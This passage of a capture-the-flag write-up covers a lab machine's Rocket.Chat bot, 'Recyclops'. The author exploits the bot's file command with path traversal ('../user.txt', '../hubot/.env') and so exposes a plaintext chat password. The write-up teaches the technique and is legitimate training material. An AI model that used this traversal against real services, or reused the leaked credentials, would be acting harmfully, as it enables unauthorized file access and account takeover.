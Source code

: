 ```
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```

So now, we add the domain to **/etc/hosts** and navigate into the website, register and login.

```
Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files: eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List: You can ask me to list the files
5. Time: You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

> We see a bot inside the general chat after login. The general chat is read-only so let's talk to the bot privately.

Then we use `file` and `list` command in the bot chat to access to the system. There is a user.txt but we don't have access to it.  We need another method to enter the system...

```
 file ../user.txt 

 Access denied.
```

After looking for something I finally found something interesting:

```
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```
